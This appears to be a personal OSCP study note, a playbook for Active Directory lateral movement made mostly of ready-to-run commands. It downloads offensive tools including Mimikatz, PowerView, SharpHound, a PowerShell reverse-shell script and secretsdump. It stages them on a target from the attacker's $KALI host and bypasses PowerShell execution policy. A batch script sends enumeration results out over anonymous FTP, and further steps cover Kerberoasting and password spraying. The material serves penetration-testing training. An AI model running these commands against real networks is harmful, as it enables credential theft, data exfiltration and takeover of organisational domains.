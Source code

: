 Resources:
OSCP Active Directory Lateral Movement PG 654
Pass the Hash
Overpass the Hash
Pass the Ticket
Kerberoasting
Password Spray
CHECK OUT:
```
https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/
```
Cryptography mimikatz module:
```
https://hackmag.com/security/lateral-movement/
```
```
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
```
# Attack Privilege Requirements
- [ ]  Kerbrute Enumeration — No domain access required
- [ ]   Pass the Ticket — Access as a user to the domain required
- [ ]   Kerberoasting — Access as any user required
- [ ]   AS-REP Roasting — Access as any user required
- [ ]   Golden Ticket — Full domain compromise (Domain Admin) required
- [ ]   Silver Ticket — Service hash required
- [ ]   Skeleton Key — Full domain compromise (Domain Admin) required
```bash - kali
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 && wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 && wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 && wget https://github.com/samratashok/nishang/raw/refs/heads/master/Gather/Invoke-Mimikatz.ps1 && wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 && wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1 && wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py && cp /home/kali/Desktop/PWK/SVCORP/10.11.1.21/spray.ps1 . && cp /home/kali/Desktop/EXAM/ACTIVE_DIRECTORY/2/PsExec64.exe .
```
### Enable RDP
Try enabling RDP with share access
[[Port 3389 - RDP ~#Enabling RDP]]
If successful, skip to [[#Domain Enumeration]]
#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
echo $KALI
```
```bash - kali
mousepad AutoUpload.bat
```
```powershell - windows
@echo off
echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt
echo put adPEAS.txt >> upload.txt
echo quit >> upload.txt
ftp -s:upload.txt $KALI
del upload.txt
```
#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==
```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri '$KALI/PowerView.ps1' -OutFile PowerView.ps1; Invoke-WebRequest -Uri '$KALI/SharpHound.ps1' -OutFile SharpHound.ps1; Invoke-WebRequest -Uri '$KALI/GetUserSPNs.ps1' -OutFile GetUserSPNs.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Mimikatz.ps1' -OutFile Invoke-Mimikatz.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Kerberoast.ps1' -OutFile Invoke-Kerberoast.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-PowerShellTcpOneLine.ps1' -OutFile Invoke-PowerShellTcpOneLine.ps1; Invoke-WebRequest -Uri '$KALI/spray.ps1' -OutFile spray.ps1; Invoke-WebRequest -Uri '$KALI/PsExec64.exe' -OutFile PsExec64.exe; Invoke-WebRequest -Uri '$KALI/AutoUpload.bat' -OutFile AutoUpload.bat; Invoke-WebRequest -Uri '$KALI/adPEAS.ps1' -OutFile adPEAS.ps1
```
#### Bypass execution policy
```batch - windows
powershell -ep bypass
```
#### Start FTP server and upload results
[[Python#FTP Server]]
```powershell - windows
cmd /c "AutoUpload.bat"
```
Export Domain variables from nmapSVC : RE-DO EVERYTIME YOU CHANGE HOSTS!
```bash - kali
export TARGET_NAME=$(cat nmapSVC | grep Target_Name | cut -d : -f 2) && export NETBIOS_DOMAIN_NAME=$(cat nmapSVC | grep NetBIOS_Domain_Name | cut -d : -f 2) && export NETBIOS_COMPUTER_NAME=$(cat nmapSVC | grep NetBIOS_Computer_Name | cut -d : -f 2) && export DNS_DOMAIN_NAME=$(cat nmapSVC | grep DNS_Domain_Name | cut -d : -f 2) && export DNS_COMPUTER_NAME=$(cat nmapSVC | grep DNS_Computer_Name | cut -d : -f 2) && export DNS_TREE_NAME=$(cat nmapSVC | grep DNS_Tree_Name | cut -d : -f 2)
```
---
#### Domain Enumeration
1. Identify Domain Controller!
Look for ports 389 and 636 being open.
From nmap scan, we should find Domain: details on these ports.
From nmap scans:
|   Target_Name: xxxxx
|   NetBIOS_Domain_Name: xxxxx
|   NetBIOS_Computer_Name: xxxxx
|   DNS_Domain_Name: xxxxx
|   DNS_Computer_Name: xxxxx
|   DNS_Tree_Name: xxxxx
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#5 Domain Enumeration winapsearch]]
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
Found users?
```bash - kali
git clone https://github.com/captain-noob/username-wordlist-generator && cd username-list-generator
```
make list of users into user.txt file
```bash - kali
python3 userlistcreator.py
```
2. Compromise a host on the domain, get system.
[[2._PsExec.exe (admin to system!)]]
Run adPEAS  https://github.com/61106960/adPEAS
```powershell - target
. .\adPEAS.ps1; Invoke-adPEAS -Outputfile 'C:\Users\xadmin\Desktop\adPeas.txt'
```
Try to find users and groups with PowerView.ps1
[[6._PowerShell AD Enumeration]]
Do you have any users / passwords / hashes at this point?
- **YES!  Try the following:**
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#5 Domain Enumeration winapsearch]]
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
[[9_Password Spraying]]
[[netexec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP
- **NO! Try the following:**
[[__.Mimikatz.ps1]]
[[__.Mimikatz.exe]]
3. Look for SPN's
```powershell - target
.\GetUserSPNs.ps1
```
[[4._Service Account Attacks]]
Now that we have password, try:
[[9_Password Spraying]]
[[netexec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP
